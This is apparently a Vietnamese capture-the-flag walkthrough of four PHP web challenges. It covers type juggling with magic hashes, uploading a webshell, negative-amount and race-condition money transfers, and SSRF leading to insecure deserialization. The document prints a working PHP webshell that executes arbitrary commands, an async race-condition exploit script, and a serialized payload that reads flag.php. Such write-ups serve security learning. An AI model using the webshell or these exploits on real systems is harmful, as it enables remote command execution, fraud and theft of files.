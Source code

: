 # **Magic shop**

*Mở đầu là 1 form login, mở source:
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/e193728d-cd4d-4f79-a928-534b98ea9903)

-Trong đoạn code trên trang web sẽ lấy username và password bị hash bằng sha256 và kiểm tra điều kiện pasword phải bằng 0 thì mới login được. Mặc dù password đã bị hash nhưng ta vẫn có thể login được. Bởi vì trang web sử dụng sử dụng `==` để so sánh 1 chuỗi với 1 interger nên nó có thể bị 1 lỗ hổng là Type Juggling  
-Khi so sánh một string với một số interger trong PHP, nếu như string bắt đầu bằng một ký tự không phải là số, nó sẽ mặc định là int(0) hoặc các strings bắt đầu với các ký tự là 0e, khi đó các chuỗi được chuyển thành các lũy thừa tương đương đương với int(0)   
-Bên cạnh đó ta có 1 lỗ hổng khác là magic hashes nó xuất hiện do một lỗi trong cách PHP xử lý kiểu dữ liệu khi so sánh chuỗi băm với số nguyên. Nếu một chuỗi băm bắt đầu bằng “0e” . Thế nên ta có thể dễ dàng tìm thấy payload trên mạng    
**nguồn payload** https://github.com/spaze/hashes  
=> qua được phần login

*Phần sau là 1 chức năng upload file và trong source không có chức năng bảo mật gì nên ta chỉ cần upload file webshell lên và và thực hiện tìm flag thôi  
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/591a9e8a-9cd5-4ea1-8d7f-50ef6e20cbf2)

file upload: webshell.php
```
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
</html>
```


![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/28f77c09-88d6-4656-b5f5-abfc64c63f1f)

# Be Positive
Bài này chỉ cần lúc chuyển chiền cho tài khoản khác sửa thành số âm là được. sau đó dùng số tiền đó để mua flag

# Slow Down
Bài này trang web tương tự Be Positive, payload nhưng chuyển tiền qua tài khoản khác bằng số âm đã không còn hoạt động ở bài này. Mình nghĩ bài này rất có thể sẽ bị lỗ hổng race condition=> đúng thật là nó ;v

**exploit**
```
import asyncio
import httpx

async def use_code(client):
    resp = await client.post(f'http://slow-down-44f3a156.dailycookie.cloud/?action=transfer', cookies={"PHPSESSID": "e4dbc35e8795f3889acff05a0baff65d"}, data={"amount": "100.849%","recipient":"alice"})
    return resp.text

async def main():
    async with httpx.AsyncClient() as client:
        tasks = []
        for _ in range(20): #20 times
            tasks.append(asyncio.ensure_future(use_code(client)))
        
        # Get responses
        results = await asyncio.gather(*tasks, return_exceptions=True)
        
        # Print results
        for r in results:
            print(r)
        
        # Async2sync sleep
        await asyncio.sleep(0.5)
    print(results)

asyncio.run(main())
```
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/d39804e2-b510-498c-8ec0-794fa3888acb)

# Video Link Extractor
+ Nếu extract mà host là localhost thì code sẽ xử lý như sau
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/96d5c64e-0dd3-4e96-a5d0-9af5e56a98dc)
+ Lợi dụng để gọi đến redirect của index.php
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/79b9f246-6418-4b22-b75b-17be148af615)
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/c5e03245-27eb-4c41-827c-0e5d7721603f)
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/f61766f4-0e69-4551-8981-a7055e0447ea)
Untrusted data sẽ là response ta trả về, khi đó nó được unserialize
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/d7d50fe9-c81c-4c3c-90e7-94338d6498a5)
Thêm vào đó object Utils khi __wakeup sẽ gọi $this->_file
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/fd5ebec4-0a91-4d57-be85-c6bd1333cbe8)
Script tạo serialize data:
```
<?php 
class Utils {
    public $_file = "php://filter/convert.base64-encode/resource=flag.php";
};
echo(serialize(new Utils()));
?>
```
Thay kết quả của script vào response của webhook
![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/3c8e2fb8-eea4-4e69-8fa1-cc04a4516059)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/241fcbd6-4164-4401-ad53-41fd4d5bbce0)

![image](https://github.com/vanatka10/ctf_walkthrough/assets/126310360/7620d7ab-7190-40f5-adc3-e5b2120a418f)


